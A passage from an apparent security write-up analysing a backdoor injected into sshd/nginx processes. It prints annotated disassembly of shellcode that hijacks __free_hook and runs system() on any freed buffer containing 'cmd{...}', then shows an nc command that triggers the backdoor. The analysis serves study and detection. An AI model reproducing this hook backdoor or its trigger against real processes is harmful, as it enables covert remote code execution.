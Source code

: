 ```
  ╎│││││╎   0x0000006e      488d52ff       lea rdx, [rdx - 1]
  ╎│││││╎   0x00000072      8d71e0         lea esi, [rcx - 0x20] ; substract 0x20 from char value
  ╎│││││╎   0x00000075      4080fe5e       cmp sil, 0x5e               ; char value - 0x20 > 0x5e?
  ────────< 0x00000079      771b           ja 0x96 ; skip shellcode magic if non-printable char was found (i.e. cl > 0x7e), ty @daubsi
  ╎│││││╎   0x0000007b      80f97d         cmp cl, 0x7d                ; '}'
  ────────< 0x0000007e      7508           jne 0x88
  ╎│││││╎   0x00000080      c60300         mov byte [rbx], 0 ; write null termination
  ╎│││││╎   0x00000083      41ffd5         call r13 ; system(), param is string inside cmd{}
  ────────< 0x00000086      eb0e           jmp 0x96
  ────────> 0x00000088      4883fa01       cmp rdx, 1
  └───────< 0x0000008c      75d4           jne 0x62
   │││││╎   0x0000008e      bd01000000     mov ebp, 1
   │││││╎   0x00000093      4889c3         mov rbx, rax
  ─└└└└───> 0x00000096      48ffc3         inc rbx
       │╎   0x00000099      48ffcd         dec rbp
       │└─< 0x0000009c      eb99           jmp 0x37
       └──> 0x0000009e      48b842424242.  movabs rax, 0x4242424242424242 ; VA of free()
            0x000000a8      4c89e7         mov rdi, r12
            0x000000ab      ffd0           call rax ; free()
            0x000000ad      48b855555555.  movabs rax, 0x5555555555555555 ; VA of injected shellcode
            0x000000b7      48a344444444.  movabs qword [0x4444444444444444], rax ; Patch __free_hook() 
            0x000000c1      58             pop rax
            0x000000c2      5b             pop rbx
            0x000000c3      5d             pop rbp
            0x000000c4      415c           pop r12
            0x000000c6      415d           pop r13
            0x000000c8      c3             ret
```

## Analyze Shellcode
The commented shellcode disassembly pretty much sums the major functionality up.
1. Check if malloc_usable_size() returns a value > 5 (otherwise there can't be a string inside cmd{})
2. Verify if the memory buffer to be freed begins with cmd{
3. Create a null-terminated string comprising the chars inside cmd{...}
4. Call system() with that string (this is the remote code execution)
5. Do the normal free'ing afterwards (*interesting: for the time of calling system, the __free_hook hook is disabled and enabled again afterwards*).

Now we know the trigger for the code execution in backdoored processes: put cmd{*command*} into a memory buffer, e.g. by using this for input.

## Verify Backdoor/RCE in Local Image
Assumption: The sshd/nginx process in the qemu image might have been backdoored with the injector.sh script.
Test with nginx listening on tcp port 4321:
```
$ nc 0 4321
cmd{echo bla > /tmp/bla}
```
